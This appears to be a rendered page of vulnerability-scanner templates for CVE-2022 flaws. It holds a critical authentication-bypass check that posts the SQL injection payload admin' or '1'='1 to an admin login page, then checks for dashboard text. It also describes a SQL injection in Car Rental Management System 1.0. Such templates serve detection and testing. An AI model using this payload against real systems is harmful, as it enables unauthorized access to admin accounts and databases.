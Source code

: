 - severity - critical
- tags - cve,cve2022,sqli,auth-bypass,edb

## Requests

### Step - 1

```
POST /admin/index.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

username=admin' or '1'='1&password=1&login=login

```

### Step - 2

```
GET /admin/dashboard.php HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. DMS || Dashboard
  2. DMS Admin
  3. Admin Profile
- condition - and

**Type - status**

- status
  1. 200

---

# Car Rental Management System 1.0 - SQL Injection

## Description

- Car Rental Management System 1.0 contains an SQL injection vulnerability via /admin/manage_booking.php?id=. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - high
- tags - cve,cve2022,carrental,cms,sqli,authenticated
